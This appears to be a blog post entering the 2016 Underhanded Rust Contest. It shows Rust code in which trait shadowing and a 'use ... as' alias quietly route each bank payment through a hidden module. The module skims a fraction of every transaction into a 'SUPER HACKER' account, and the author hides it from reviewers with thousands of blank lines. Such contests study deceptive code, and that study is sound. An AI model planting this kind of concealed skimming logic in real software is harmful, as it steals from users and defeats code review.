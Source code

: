 ```yaml
---
layout: post
title:  "The 2016 Underhanded Rust Contest. Poisoned with module import."
date:   2017-01-11 11:00:00 -1000
categories: underhanded
lang: en-US
---
```


To increase my chances in [Underhanded Rust](https://underhanded.rs) i wrote another
simple web-server, that has a small defect. It quietly carves out fractions of a penny 
from each transaction into an account used by SUPER HACKER. To make it i
used Rust Module Import System.

There are [Crates and Modules chapter](https://doc.rust-lang.org/stable/book/crates-and-modules.html) and [Traits chapter](https://doc.rust-lang.org/stable/book/traits.html) in the Rust Book.

# Ideas

The first idea, that came to me, was "different traits can have the 
same named functions". So we can do something like this:
```ignore
mod a {
    pub struct Person;
    pub trait Bank {
        fn pay(&self);
    }
    impl Bank for Person {
        fn pay(&self) {
            println!("Payedddd to bank!!");
        }
    }
}

mod b {
    use a;
    pub trait Bank {
        fn pay(&self);
    }
    impl<T> Bank for T
        where T: a::Bank
    {
        fn pay(&self) {
            println!("Hacked!");
            <Self as a::Bank>::pay(self);
        }
    }
}

fn main() {
    // use a::Bank;
    use b::Bank;
    let p = a::Person {};
    p.pay();
}
```
But in this case used trait is not hidden and the reviewing guy
could say "busted!" and put poor programmer in jail or hire in Microsoft.

So to hide it i tried to use `as` keyword and it works. It has very
tricky behaviour. It doesn't work in other `use` statements, but works
in another code. So if we change main function, it is still be working:

```ignore
fn main() {
    use a as c;
    use c::Bank;
    let p = c::Person {};
    p.pay();
}

```
Notice that `c::Bank` and `c::Person` are seemed to be imported from one
module - `a`. But that's not true.

# Technichal part

The technichal part is also not so excited. I found nothing better than
put exploited module in lib.rs and separate it from other code by thousands 
of empty lines. -,-

The module looks like this:

```ignore
mod bank {
    use mybank;
    use mybank::{Person, Payment};
    use rustc_serialize::json::Json;


    pub trait Service {
        fn add_payment(&mut self, pay: Payment) -> String;
        fn add_customer(&mut self, customer: Person) -> String;
        fn get_account_info(&mut self, customer: Person) -> String;
    }

    impl<T> Service for T
        where T: mybank::Service
    {
        fn add_customer(&mut self, customer: Person) -> String {
            <Self as mybank::Service>::add_customer(self, customer)
        }

        fn add_payment(&mut self, pay: Payment) -> String {
            let hacker = Person {
                firstname: "SUPER".to_string(),
                lastname: "HACKER".to_string(),
            };
            let acc_info = <Self as mybank::Service>::get_account_info(self, hacker.clone());
            let json = Json::from_str(&acc_info).unwrap();
            let account = json["account"].as_string().unwrap().to_string();
            let hacker_pay = Payment {
                customer: hacker,
                account: account,
                amount: 0.00001f64,
            };
            println!("Hacked!");
            <Self as mybank::Service>::add_payment(self, hacker_pay);
            let corrected_pay = Payment {
                customer: pay.customer,
                account: pay.account,
                amount: pay.amount - 0.00001f64,
            };
            <Self as mybank::Service>::add_payment(self, corrected_pay)
        }

        fn get_account_info(&mut self, customer: Person) -> String {
            <Self as mybank::Service>::get_account_info(self, customer)
        }
    }
}
```

On server side i used these imports:

```ignore
use mybank as bank;
use bank::Service;
```

# The End 

Poisoned module pays salary to SUPER HACKER and reviewing guy is happy, because
there are no errors and everything seems working great.

Thanks 2 $)
